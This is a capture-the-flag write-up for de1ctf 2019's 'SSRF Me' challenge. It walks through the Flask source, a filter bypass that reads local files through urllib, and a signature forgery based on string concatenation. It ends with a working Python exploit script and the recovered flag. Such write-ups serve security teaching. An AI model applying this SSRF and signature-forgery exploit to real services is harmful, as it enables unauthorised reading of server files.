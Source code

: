 # SSRF Me - Writeup  
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the
source code of the Flask App that we are interfacing with:

```  
#! /usr/bin/env python  
#encoding=utf-8  
from flask import Flask  
from flask import request  
import socket  
import hashlib  
import urllib  
import sys  
import os  
import json

reload(sys)  
sys.setdefaultencoding('latin1')  
app = Flask(__name__)  
secert_key = os.urandom(16)

class Task:  
	def __init__(self, action, param, sign, ip):   
		self.action = action   
		self.param = param   
		self.sign = sign   
		self.sandbox = md5(ip)   
		if(not os.path.exists(self.sandbox)):   
			#SandBox For Remote_Addr   
			os.mkdir(self.sandbox) 

	def Exec(self):   
		result = {}   
		result['code'] = 500   
		if (self.checkSign()):   
			if "scan" in self.action:   
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w')   
				resp = scan(self.param)   
				if (resp == "Connection Timeout"):   
					result['data'] = resp   
				else:   
					print resp   
					tmpfile.write(resp)   
					tmpfile.close()  
					result['code'] = 200   
			if "read" in self.action:   
				f = open("./%s/result.txt" % self.sandbox, 'r')   
				result['code'] = 200   
				result['data'] = f.read()   
			if result['code'] == 500:   
				result['data'] = "Action Error"   
		else:   
			result['code'] = 500   
			result['msg'] = "Sign Error"   
		return result 

	def checkSign(self):   
		if (getSign(self.action, self.param) == self.sign):   
			return True   
		else:   
			return False 

#generate Sign For Action Scan.  
@app.route("/geneSign", methods=['GET', 'POST'])  
def geneSign():  
	param = urllib.unquote(request.args.get("param", ""))   
	action = "scan"   
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST'])  
def challenge():  
	action = urllib.unquote(request.cookies.get("action"))   
	param = urllib.unquote(request.args.get("param", ""))   
	sign = urllib.unquote(request.cookies.get("sign"))   
	ip = request.remote_addr   
	if(waf(param)):   
		return "No Hacker!!!!"   
	task = Task(action, param, sign, ip)   
	return json.dumps(task.Exec()) 

@app.route('/')  
def index():  
	return open("code.txt","r").read() 

def scan(param):  
	socket.setdefaulttimeout(1)   
	try:   
		return urllib.urlopen(param).read()[:50]   
	except:   
		return "Connection Timeout" 

def getSign(action, param):  
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content):  
	return hashlib.md5(content).hexdigest()

def waf(param):  
	check=param.strip().lower()   
	if check.startswith("gopher") or check.startswith("file"):   
		return True   
	else:   
		return False 

if __name__ == '__main__':  
	app.debug = False   
	app.run(host='0.0.0.0',port=80)  
```

Looking over it, we see that visiting `"/De1ta"` will execute the
`challenge()` function and construct a new `Task` object with an `action`,
`param`, and `sign` that we provide as cookies and a GET parameter. (Also our
`ip` is passed to it). Then it will call the `Exec()` method of the object and
return the json result.

```  
task = Task(action, param, sign, ip)  
return json.dumps(task.Exec())  
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the
`sign` value is the same as the value generated by `getSign()`. We have to
pass this check to move on to the rest of `Exec()`.

```  
def checkSign(self):  
		if (getSign(self.action, self.param) == self.sign):   
			return True   
		else:   
			return False  
```

`getSign()` performs an md5 hash with `secret_key + param + action`.
`secret_key` is a random value that is generated by the App, so we don't know
it.

```  
def getSign(action, param):  
	return hashlib.md5(secert_key + param + action).hexdigest()   
```

So now we need a way to generate a valid sign. Making a request to `/geneSign`
will generate a `sign` value for us, however it will only allow us to pass it
the `param` value and the `action` value will be set to `"scan"`.

```  
@app.route("/geneSign", methods=['GET', 'POST'])  
def geneSign():  
	param = urllib.unquote(request.args.get("param", ""))   
	action = "scan"   
	return getSign(action, param)   
```

Now that we can generate a valid `sign` value, we can pass the check and move
on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in`
`action`. Notice, it does not check whether `action == "scan"`, only whether
it contains it. This will be important later. The `"scan"` action will make a
request with the value of `param` and write it to a file.

```  
if "scan" in self.action:  
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w')   
	resp = scan(self.param)   
	if (resp == "Connection Timeout"):   
		result['data'] = resp   
	else:   
		print resp   
		tmpfile.write(resp)   
		tmpfile.close()  
		result['code'] = 200   
```

The second `if` case performs the same check with `"read"`. This action will
read the file that we just wrote the result of `"scan"` to.

```  
if "read" in self.action:  
	f = open("./%s/result.txt" % self.sandbox, 'r')   
	result['code'] = 200   
	result['data'] = f.read()   
```

Going back to the `"scan"` case, we see the function `scan()` is called with
our `param`. This function will use `urllib.urlopen()` to perform the request
and this is where the SSRF vulnerability is.

```  
def scan(param):  
	socket.setdefaulttimeout(1)   
	try:   
		return urllib.urlopen(param).read()[:50]   
	except:   
		return "Connection Timeout"   
```

To read local files we could use the `"file://"` protocol, however any `param`
value that starts with `"file"` or `"gopher"` is blocked in the `challenge()`
function. I believe there are multiple ways to get past this, but I noticed
that starting `param` without a protocol would attempt to read files from the
file system. The challenge hint says...

>flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to
read it without a valid sign with the action **including** `"read"`. If we can
generate a sign for the `action` as `"readscan"`, we can perform the scan and
read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so
we can pass the value of `param` as `"flag.txtread"` (the value of `action`
will be `"scan"`) and generate the *same* hash as if we pass `param` as
`"flag.txt"` and `action` as `"readscan"`.

```"flag.txtread"+"scan" == "flag.txt"+"readscan"```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```  
import requests

def geneSign(param):  
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"  
sign = geneSign(param)  
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param,
cookies={"action":action,"sign":sign}).text

print(answer)  
```  

Original writeup (https://github.com/will-
lynas/CTF_writeups/blob/master/de1ctf-2019/SSRF_me.md).